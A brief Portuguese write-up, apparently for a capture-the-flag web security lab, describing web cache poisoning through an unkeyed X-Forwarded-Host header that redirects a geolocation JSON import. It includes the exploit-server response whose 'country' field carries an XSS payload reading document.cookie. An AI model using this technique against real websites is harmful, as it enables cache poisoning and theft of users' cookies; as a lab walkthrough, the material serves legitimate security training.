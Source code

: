 #ctf

O HTML mostra um json: 

```html
<script>
    data = {
        "host":"example.com",
        "path":"/",
    }
</script>
```

Que pode ser alterado usando a unkeyed X-Forwarded-Host (o Param Miner descobre isso).

Esse **data.host** é usado para importar um arquivo .json através desse *script*:

```html
<script>
    initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

Essa função **initGeolocate** presente em `/resources/js/geolocate.js` pega o atributo "country" presente no json e lança no HTML.

Usando exploit server do lab basta configurar os campos:

```
/resources/json/geolocate.json`

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *

{
"country":"<img src=1 onerror=javascript:alert(document.cookie)></img>"
}
```

GG